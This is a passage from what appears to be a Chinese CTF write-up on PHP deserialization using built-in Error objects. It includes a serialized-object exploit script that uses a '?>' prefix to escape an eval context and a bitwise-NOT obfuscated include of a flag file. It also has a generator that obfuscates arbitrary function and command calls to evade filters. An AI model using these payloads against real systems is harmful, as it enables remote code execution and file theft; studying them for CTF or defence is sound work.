 ```
}

$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    

$str = "?><?=include $_GET[_]?>"; 
*/
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>
```

这里 `$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";` 中为什么要在前面加上一个 `?>` 呢？因为 `Exception` 类与 `Error` 的 `__toString` 方法在eval()函数中输出的结果是不可能控的，即输出的报错信息中，payload前面还有一段杂乱信息“Error: ”：

```
Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}
```

进入eval()函数会类似于：`eval("...Error: <?php payload ?>")`。所以我们要用 `?>` 来闭合一下，即 `eval("...Error: ?><?php payload ?>")`，这样我们的payload便能顺利执行了。

上面的取反生成脚本如下

```php
<?php


  /*author yu22x*/

  fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```





### SimpleXMLElement 

SimpleXMLElement 这个内置类用于解析 XML 文档中的元素。
